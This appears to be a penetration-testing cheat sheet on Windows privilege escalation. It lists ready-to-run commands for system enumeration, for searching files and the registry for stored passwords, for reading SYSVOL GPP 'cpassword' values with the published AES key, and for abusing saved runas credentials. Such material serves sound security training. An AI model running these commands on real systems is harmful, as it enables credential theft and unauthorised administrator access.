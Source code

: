 # Windows Privilege Escalation 
This cheat sheet contains the flow chart methodology that can be used to test Windows privilege escalation.
## System Information Gathering
Use the following steps to gather basic system information once we get a low privilege shell on a Micorsoft Windows system.
### All System Info
To get system information, try the following DOS command,
```
C:> systeminfo
```
### User Info
We can get a list of users with the following command,
```
C:> net user
C:> net user (USERNAME)
```
### Network Information
We can use DOS to gather network information from the comrpomised taregt Microsoft Windows machine with the following DOS commands,
```
C:> ipconfig /all
C:> route print
C:> arp -A
C:> netstat -ano
C:> netsh firewall show state
C:> netsh firewall show config
```
### Scheduled Tasks
Micorosft Windows might have scheduled tasks which we can leverge depending on the task, permissions, the files it accesses and their permissions, and how oftne the task runs. Use the followinf DOS command to gather scheduled task information from Microsoft Windows,
```
C:> schtasks /query /fo LIST /v
C:> tasklist /SVC
C:> net start
```
### Drivers
Some drivers might have vulnerabilities. We can list the drivers used on a Microsoft Windows system with the following DOS command,
```
C:> DRIVERQUERY
```
## Missing Patches
To get the patch information for Microsoft Windows systems, we can us `wmic` as shown below.
```
C:> wmic qfe get Caption, Description, HotFixID, InstalledOn
C:> wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."
```
Then do a search in Exploit-DB with `searchsploit` in Kali Linux.
## Browser Credentials
Browser credentials could lead to escalation if the credentials are reused on other systems and services. 

## PowerUp
The [PowerUp Power Shell script](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) PowerSploit module can be used to search for injectable DLLs, service permissions, autologin credentials, web configuration credentials and many other areas of the OS and FS that can be used specifically for privilege escalation.

## AlwaysInstallElevated
This option in the Windows registry will aloow us to execute a binary that does `execv()` and adds an admin user no matter what privilege we current are. This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
```
C:\Windows\system32> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
C:\Windows\system32> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
## RunAs
You can try the `runas` command with the `/savecred` in hopes that an admin credential has been saved for scripting purposes. For instance, spawn a new shell and write the contents of a protected file to one that you can read, like so,
```
C:\> runas /savecred /user:Administrator "cmd.exe /c type C:\Users\Administrator\Desktop\flag.txt > C:\Users\PwnedUser\Desktop\flag.txt"
```
If the credentials are in fact stored, you will get a new file in the pwned user's desktop called "flag.txt"

## WMIC
Windows Management Instrumentation Console can sometimes be leveraged for privilege escalation.

## Mass Install of Windows to Labs
Sometimes the mass-install process of many Microsoft Windows machines in the same environment can leave behind log files with sensitive information in them. We can check a few of these files if they exist on the file system onthe compromised target Windows machine,
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
## Groups.xml
If we have access to the SYSVOL/groups.xml file, we have access to any passwords encrypted in there. When a new GPP is created, there’s an associated XML file created in SYSVOL with the relevant configuration data and if there is a password provided, it is AES-256 bit encrypted. 

Since authenticated users (any domain user or users in a trusted domain) have read access to SYSVOL, anyone in the domain can search the SYSVOL share for XML files containing “cpassword” which is the value that contains the AES encrypted password.
```
C:> findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```
The AES decryption key, published by Microsoft themselves, is,
```
4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8	
f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
```
There is a PowerSploit Power Shell script that we can use to automate the password reveal [located here.](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

## Mass Credentials Search
Below are a few searches that we can do in our DOS prompt for searching for credentials that are stored in files.
```
C:> dir /s *pass* == *cred* == *vnc* == *.config*
C:> findstr /si password *.xml *.ini *.txt
C:> reg query HKLM /f password /t REG_SZ /s
C:> reg query HKCU /f password /t REG_SZ /s
```
## Windows Services
Next, we can try Microsoft Windows Services with the following command,
```
C:> sc qc Sploiler
```
If we upload a copy of the `accesschk.exe` binary from [Microsoft SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) we can check alot of permissions for services. For instance,
```
C:> accesschk.exe -ucqv Spooler
```
will list the Spooler service and it's permissions. To list all services, simply use an asterisk,
```
C:> accesschk.exe -ucqv *
```
